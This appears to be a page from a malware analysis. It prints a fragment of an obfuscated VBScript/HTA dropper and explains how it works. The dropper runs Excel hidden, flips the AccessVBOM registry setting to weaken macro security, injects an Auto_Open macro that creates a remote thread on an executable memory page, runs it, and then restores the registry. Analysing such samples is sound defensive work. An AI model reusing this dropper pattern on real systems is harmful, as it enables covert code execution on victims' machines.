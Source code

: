 ```vba
"pInfo"&Chr(46)&"hProcess"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(44)&" rwxpage"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(41)&Chr(10)&"End Sub"&Chr(10)&"Sub Auto"&"Open"&Chr(40)&Chr(41)&Chr(10)&"    Auto"&"_Open"& _
Chr(10)&"End Sub"&Chr(10)&"Sub Work"&"book_Ope"&"n"&Chr(40)&Chr(41)&Chr(10)&"    Auto"&"_Open"&Chr(10)&"End Sub"&Chr(10)
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

This VBScript code is designed to run a hidden macro inside a Microsoft Excel workbook. It leverages a technique to weaken the security settings of Excel to allow the macro to execute successfully. The code then creates a new Excel workbook, adds a VBA macro to it, and executes that macro.&#x20;

1. **Setting Up Excel Application**: The code creates an instance of the Excel application using the "CreateObject" function and sets its visibility to "False," making the application run in the background (invisible to the user).
2.  **Checking and Modifying Registry Settings**: The code checks if a particular registry key related to Excel's security settings exists. The key is for allowing access to the VBOM (Visual Basic for Applications Object Model). If the key exists, its current value is stored in the "action" variable. If the key doesn't exist, "action" remains empty.

    After that, the code weakens the Excel security settings by setting the registry key "AccessVBOM" to 1, allowing VBA macros to access the VBOM. This change makes it possible to create and run VBA code dynamically.
3. **Creating a New Excel Workbook**: The code creates a new Excel workbook using "objExcel.Workbooks.Add()".
4. **Adding VBA Macro to the Workbook**: The code creates a new VBA module in the newly created workbook ("xlmodule") and adds a VBA code block to it. The VBA code is quite lengthy and appears to be obfuscated to avoid detection. The VBA code creates some custom types ("PROCESS\_INFORMATION" and "STARTUPINFO") and a function ("CreateStuff") which seems to have a remote thread creation capability.
5. **Running the Hidden Macro**: The code uses the "objExcel.Run" method to execute the "Auto\_Open" subroutine within the newly created workbook, which effectively runs the hidden macro.
6. **Closing and Quitting Excel**: After the macro execution, the code closes the newly created workbook without saving changes using "objWorkbook.Close False" and then quits the Excel application using "objExcel.Quit".
7. **Restoring Registry Settings**: Finally, the code checks if the "action" variable contains any value. If it does, it means that a previous "AccessVBOM" registry key setting existed before the macro ran. In that case, it restores the original value of the "AccessVBOM" registry key to its previous state. If "action" is empty, it means that the registry key didn't exist before running the macro, and the code deletes the "AccessVBOM" registry key to restore the original state.
